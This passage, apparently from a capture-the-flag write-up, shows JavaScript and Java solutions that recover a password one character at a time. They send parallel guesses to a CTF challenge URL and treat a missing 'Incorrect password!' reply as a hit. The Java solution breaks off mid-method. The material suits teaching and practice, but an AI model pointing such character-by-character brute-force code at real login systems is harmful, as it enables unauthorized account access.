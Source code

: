 ```jsx
        if (!body.toString().includes("Incorrect password!")) {
          pass = test;
        }
        resolve();
      }
    );
  });
}

async function testAll() {
  var promises = [];
  for (var i = 33; i < 127; i++) {
    test = pass + String.fromCharCode(i);
    promises.push(testPass(test));
  }
  await Promise.all(promises).catch((error) => {
    console.log(error);
  });
  next();
}

async function next() {
  if (pass[pass.length - 1] == "}") {
    console.log("Password: " + pass);
    return;
  }
  await testAll();
}

next();
```

### Additional Solutions

Java Parallelism (by kp#0649)

```java
import java.util.*;
import java.util.concurrent.*;
import java.net.http.*;
import java.net.*;
import java.nio.charset.StandardCharsets;
import java.io.*;

public class cracked4 {
    static class Validator extends RecursiveAction {
        public StringBuilder password;
        public Validator(StringBuilder p) {
            password = p;
        }
        public static boolean valid(StringBuilder s) throws IOException, InterruptedException {
            HttpClient client = HttpClient.newHttpClient();
            String test = "https://cararra-ctf-files.herokuapp.com/r1/cracked-4?pass=" + URLEncoder.encode(s.toString(), StandardCharsets.UTF_8);
            HttpRequest request = HttpRequest.newBuilder().uri(URI.create(test)).GET().build();
            HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());
            String text = response.body();
            return !text.contains("Incorrect password!");
        }
        @Override
        protected void compute() {
            try {
                if (!valid(password)) return;
```